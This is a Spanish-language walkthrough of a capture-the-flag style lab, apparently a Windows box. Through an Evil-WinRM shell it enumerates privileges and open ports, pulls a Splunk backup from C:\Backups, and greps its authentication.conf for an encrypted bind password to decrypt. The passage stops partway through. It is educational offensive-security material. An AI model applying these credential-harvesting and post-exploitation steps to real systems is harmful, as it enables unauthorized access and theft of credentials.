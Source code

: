 En este punto debemos encontrar una forma de escalar nuestros privilegios, algunas de las técnicas comunes que podemos intentar son las siguientes.

Primeramente comprobaremos que estamos en la máquina victima

~~~ bash
*Evil-WinRM* PS C:\Users> ipconfig
~~~

### (Posible) - Local User Privileges

Listar los privilegios locales asignados al usuario podría ser una vía potencial si vemos privilegios como `SeImpersonatePrivilege`, `SeBackupPrivilege`, `SeCreateTokenPrivilege`, entre otros

~~~ bash
*Evil-WinRM* PS C:\Users> whoami /priv
~~~

### (Posible) Internally Open Ports - Services

Listar puertos abiertos internamente podría darnos una señal de servicios que se estén ejecutando y no son visibles desde fuera

~~~ bash
*Evil-WinRM* PS C:\Users> netstat -ano
~~~


## `Splunk` Backup Analysis

Dentro del directorio `C:\Backups`, se encuentra una copia de `Splunk`, aprovecharemos `evil-winrm` y la traeremos a nuestra máquina con el comando `download` 

~~~ bash
*Evil-WinRM* PS C:\Backups\Splunk> dir


    Directory: C:\Backups\Splunk


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          8/6/2024   3:22 PM       27445566 splunk_backup_2024-08-06.zip
~~~


## Decrypting `Splunk` Password - `admin`

Buscaremos credenciales para desencriptarlas como lo hicimos al principio. Primeramente buscaremos credenciales

~~~ bash
grep -iar 'bindDN = '

...
...
var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=

cat var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf

[default]

minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

~~~